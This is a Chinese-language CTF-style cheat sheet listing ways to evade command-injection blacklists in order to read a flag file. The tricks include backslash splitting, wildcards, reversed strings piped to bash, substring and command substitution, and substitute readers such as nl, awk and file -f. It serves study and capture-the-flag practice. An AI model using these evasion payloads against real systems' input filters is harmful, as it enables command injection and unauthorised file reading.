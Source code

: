 - 跨行
  
  ```bash
  $ cat \
  > f\
  > lag\
  > .txt
  flag is here!
  ```
  
- 单行：`c\a\t flag.txt`

###### 通配符绕过

​		`cat ????.???` 、`cat /f*`

###### 使用绝对路径加载命令

&emsp;&emsp;`/bin/cat flag.txt`

###### 字符串反序绕过

&emsp;&emsp;反序为 "txt.galf tac" ，配合 rev 命令使其正序。

```bash
txt.galf tac|rev|bash
```

###### 字符串截取绕过

&emsp;&emsp;假设 ls 的执行结果为 flag.txt ，则可构造 `cat $(expr substr $(ls) 1 8)` 。

###### ``、$()绕过

&emsp;&emsp;如果 ls 的结果为 flag.txt，则可 cat \`ls`或 cat $(ls) ，还可 ls|xargs cat 。

&emsp;&emsp;xargs：进行标准输出格式转换。如上述命令，通过管道符获取 ls 命令的标准输出再通过 xargs 命令对标准输出格式化为 cat 命令的参数。

###### 命令代替绕过

cat：

- more

- head、tail

- file -f file：

  ```bash
  file -f flag.txt
  #输出：flag{this_1s_f1@9}: cannot open `flag{this_1s_f1@9}' (No such file or directory)
  ```

- rev

- nl

- awk NR file：效果跟 cat 一样。

- sort

- uniq

